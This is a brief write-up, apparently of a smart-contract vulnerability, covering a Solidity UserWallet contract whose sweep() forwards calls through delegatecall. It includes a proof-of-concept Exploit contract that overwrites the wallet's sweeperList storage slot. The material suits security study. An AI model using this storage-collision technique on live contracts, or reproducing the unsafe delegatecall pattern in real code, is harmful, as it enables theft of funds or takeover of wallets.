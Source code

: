 # address 
https://etherscan.io/address/0x0a7bca9FB7AfF26c6ED8029BB6f0F5D291587c42

# vuln

```
contract UserWallet {
    AbstractSweeperList sweeperList;
    ...
    function sweep(address _token, uint _amount)
    returns (bool) {
        (_amount);
        return sweeperList.sweeperOf(_token).delegatecall(msg.data);
    }
    ...
}
```
In the contract named UserWallet, there is a sweep() function, and it called the delegatecall() which will change the value of sweeperList.

# attack

```
contract Controller is AbstractSweeperList {
    ...
    function addSweeper(address _token, address _sweeper) onlyOwner {
        sweepers[_token] = _sweeper;
    }
    ...
}
```
Firstly, we should let the owner add the evil contract address to his sweepers. The evil contract like this.

```

contract Exploit {

    uint public start;
    function sweep(address _token, uint _amount) returns (bool) {
        start = 0x123456789;
        return true;
    }
}
```
then we just call the sweep() in UserWallet contract, it will change the sweeperList to 0X123456789.
